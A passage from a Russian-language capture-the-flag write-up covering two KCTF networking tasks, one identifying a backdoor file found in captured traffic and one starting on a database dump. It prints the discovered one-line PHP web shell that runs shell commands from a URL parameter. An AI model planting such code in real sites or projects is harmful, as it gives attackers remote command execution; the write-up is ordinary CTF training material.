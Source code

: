 ### Networking 9: BackDoor

```sh
Description:

What is the backdoor file name?

Please use the attachment of the first challenge.

Flag Format: KCTF{filename.ext}
```

Продолжаем двигаться по найденному потоку и находим файл `.621b4CkD0oR.php5`, в который помещается `<?php echo system("$_GET['cmd']");?>`, что свидетельствует о том, что этот файл явялется полноценным бэкдором:

![ScreenShot](screenshots/27.png)

Притом, название на самом деле здесь подразумевается в полном формате (нет на скрине выше)

`KCTF{.621b4CkD0oR.php5}`

---

### Networking 10: Super Admin

```sh
Description:

What is the super admin password in the web application?

Please download this to solve the challenge. You might need this to solve the other challenges.

Flag Format: KCTF{password}
```

Для решения данного таска нужно обратиться к второй части исходников, как указано в описании задания. Второй исходник представляет собой дамп БД:

![ScreenShot](screenshots/28.png)
